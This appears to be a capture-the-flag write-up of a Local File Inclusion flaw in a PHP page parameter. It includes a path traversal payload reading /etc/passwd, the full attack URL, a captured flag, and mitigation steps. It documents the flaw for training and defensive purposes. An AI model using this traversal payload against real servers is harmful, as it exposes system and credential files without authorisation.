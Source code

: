 # Local File Inclusion

## Issue

The 'page' parameter at "http://{IP}:{PORT}/index.php?page=" does not sanitize the query value allowing an attacker to request \
the server load files or pages outside of permitted directories. This can result in a Local File Inclusion (LFI) vulnerability, \
which could allow an attacker to access sensitive files on the server, such as configuration files, password files, or \
other important files that should not be accessible.


## Attack Vector

1 - Navigate to http://{IP}:{PORT}/index.php?page=signin

2 - Change 'signin' to '../../../../../../../etc/passwd'

3 - Full URL is  http://{IP}:{PORT}/index.php?page=../../../../../../../etc/passwd

4 - Flag revealed is `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`


## PoC

<img src="02_Screenshot.png" width="70%" height="70%" />


## Mitigation

1 - Sanitize query string input and escape non-permitted characters

2 - Identify path traversal attempts and implement backend validation to whitelist specific files and directories

3 - Disable PHP inclusion if necessary

